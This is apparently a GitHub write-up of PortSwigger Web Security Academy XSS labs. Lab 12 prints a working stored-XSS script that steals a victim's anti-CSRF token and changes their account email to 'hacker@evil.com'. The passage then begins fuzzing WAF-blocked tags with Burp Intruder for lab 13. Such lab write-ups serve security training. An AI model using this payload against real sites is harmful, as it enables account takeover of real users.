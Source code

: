 ### Lab 12 - Exploiting stored XSS to perform CSRF

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

In this lab we see how we can leverage a **stored XSS** to perform a **CSRF** attack on a victim. We are targetting the `/change-email` functionnality to forcefully change the victim's e-mail address to something under our control.

The web application uses anti-CSRF tokens to prevent such kinds of attacks, but we can extract it by leveraging a stored XSS located in the blog comments.

1) Victim requests the page containing the anti-CSRF token we want to extract (`/my-account`). The browser will automatically pass-on the user's cookies (`allowCredentials=true`)

2) A second request is sent to modify the email address which will append both the session cookies and the `csrf` token extracted in step 1)

**Solution**

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open("get", "/my-account", true);
req.send();
function handleResponse() {
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
	var changeReq = new XMLHttpRequest();
	changeReq.open("post", "/my-account/change-email", true);
	changeReq.send("csrf="+token+"&email=hacker@evil.com");
};
</script>
```

### Lab 13 - Reflected XSS into HTML context with most tags and attributes blocked

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked

The user input in search bar is reflected in the page but there is a WAF protection the application against common XSS payloads.

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-XSS-Protection: 0
Connection: close
Content-Length: 20

"Tag is not allowed"
```

We use Burp Intruder to check against a pre-compiled list of HTML tags to see what is blacklisted:

`GET /?search=<§§>` in Intruder
